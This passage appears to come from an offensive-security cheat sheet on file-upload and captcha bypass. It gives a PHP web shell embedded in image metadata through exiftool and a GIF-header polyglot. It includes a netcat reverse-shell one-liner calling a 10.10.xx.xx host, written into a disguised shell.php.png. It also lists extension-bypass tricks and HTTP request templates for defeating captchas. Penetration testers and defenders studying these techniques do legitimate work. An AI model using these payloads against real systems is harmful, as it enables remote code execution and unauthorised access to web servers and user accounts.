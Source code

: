 ```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
```
### Add GIF header
```
. GIF89a;
. JFIF; <?php echo "<pre>"; system($_GET['cmd']); ?>
. GIF89 <reverse_shell|shell>
. echo '<?php' >> shell.php.png
. echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f");' >> shell.php.png
. echo '?>' >> shell.php.png
```
### Using null byte in filename
```
file.php%00.gif
```
### Using double extensions for the uploaded file
```
file.jpg.php
```
### Uploading an unpopular php extensions (php4,php5,php6,phtml)
```
file.php5
```
### Try to randomly capitalizes the file extension
```
file.pHP5
```

## Captcha

### Try changing the request method, for example POST to GET
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123

------------------------------------------------------------------------------

GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
[...]
```
### Try remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=&_Username=daffa&_Password=test123
```
### Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]
```